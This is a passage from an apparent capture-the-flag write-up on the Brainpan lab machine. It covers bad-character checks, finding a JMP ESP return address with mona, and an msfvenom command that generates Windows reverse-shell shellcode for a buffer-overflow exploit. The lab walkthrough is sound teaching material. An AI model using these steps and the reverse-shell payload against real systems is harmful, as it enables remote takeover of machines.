 ![img-description](/assets/img/Brainpan/Brainban_Badchars.png)
_Bad Chars_

As we see the results status returns "Unmodified". This indicates that there is no badchars exist.

#### Finding a Jump Point

Now run the following command, making sure to update the -cpb option with the badchars we have **just (\x00)**:

```
!mona jmp -r esp -cpb "\x00"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified.

![img-description](/assets/img/Brainpan/Brainban_Jmp.png)
_JMP ESP_

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

#### Generate Payload

Run the following msfvenom command on Kali for making the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 EXITFUNC=thread -b "\x00\x0a" -f c
```
